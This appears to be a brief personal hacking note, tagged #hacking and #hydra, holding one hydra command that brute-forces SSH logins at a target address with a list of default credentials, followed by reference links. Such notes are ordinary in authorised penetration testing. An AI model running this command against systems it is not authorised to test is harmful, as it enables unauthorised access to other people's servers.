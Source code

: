# brute force default credentials ssh
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -e nsr -t 1 $IP ssh
```

# References
- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:
    #assorted #command #hacking #hydra
